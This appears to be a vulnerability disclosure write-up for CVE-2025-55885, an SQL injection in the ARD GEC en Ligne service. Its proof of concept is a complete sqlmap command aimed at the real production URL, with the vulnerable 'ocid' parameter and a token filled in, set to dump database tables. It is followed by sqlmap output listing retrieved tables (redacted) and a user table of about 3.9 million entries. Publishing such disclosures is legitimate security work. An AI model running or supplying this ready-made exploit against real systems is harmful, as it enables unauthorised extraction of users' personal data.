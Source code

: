 # CVE-2025-55885
### Description
SQL Injection vulnerability in Alpes Recherche et Developpement ARD GEC
en Ligne before v.2025-04-23 allows a remote attacker to escalate
privileges via the GET parameters in index.php

### Attack Vectors
SQL injection via unsanitized GET parameter ocid on https://services.ard.fr/index.php (transaction confirmation page).

### Proof Of Concept
**Payload**
```
sqlmap -u "https://services.ard.fr/index.php?id=5869&ocid=183&token=1SemPugSUq3maSpK81871559797854161&transactionID=123" -p "ocid" --dbms=mysql -D ard-T [TABLE] --dump
````

**List of Tables**
```
[18:36:46] [INFO] retrieved: [redacted]
[18:37:15] [INFO] retrieved: [redacted]
[18:37:27] [INFO] retrieved: [redacted]
[18:37:39] [INFO] retrieved: [redacted]
[18:37:58] [INFO] retrieved: [redacted]
[18:38:15] [INFO] retrieved: [redacted]
[18:38:27] [INFO] retrieved: [redacted]
[18:38:59] [INFO] retrieved: [redacted]
[18:39:09] [INFO] retrieved: [redacted]
[18:39:30] [INFO] retrieved: [redacted]
[18:39:51] [INFO] retrieved: [redacted]
[18:40:03] [INFO] retrieved: [redacted]
[18:40:18] [INFO] retrieved: [redacted]
[18:40:35] [INFO] retrieved: [redacted]
[18:41:02] [INFO] retrieved: [redacted]
[18:41:48] [INFO] retrieved: [redacted]
[18:42:06] [INFO] retrieved: [redacted]
[18:42:23] [INFO] retrieved: [redacted]
[18:42:44] [INFO] retrieved: [redacted]
[18:43:04] [INFO] retrieved: [redacted]
[18:43:25] [INFO] retrieved: [redacted]
[18:44:01] [INFO] retrieved: [redacted]
[18:44:20] [INFO] retrieved: [redacted]
[18:44:40] [INFO] retrieved: [redacted]
[18:45:01] [INFO] retrieved: [redacted]
[18:45:13] [INFO] retrieved: [redacted]
[18:45:36] [INFO] retrieved: [redacted]
[18:45:54] [INFO] retrieved: [redacted]
[18:46:31] [INFO] retrieved: [redacted]
[18:46:56] [INFO] retrieved: [redacted]
[18:47:02] [INFO] retrieved: [redacted]
[18:47:13] [INFO] retrieved: [redacted]
[18:47:34] [INFO] retrieved: [redacted]
[18:47:58] [INFO] retrieved: [redacted]
[18:48:21] [INFO] retrieved: [redacted]
[19:45:51] [INFO] fetching entries for table '[user table]' in database 'ard'
[19:45:51] [INFO] fetching number of entries for table '[user table]' in database 'ard'
[19:45:51] [INFO] retrieved: 3904699
```

### Reseachers
- [raphckrman](https://github.com/raphckrman)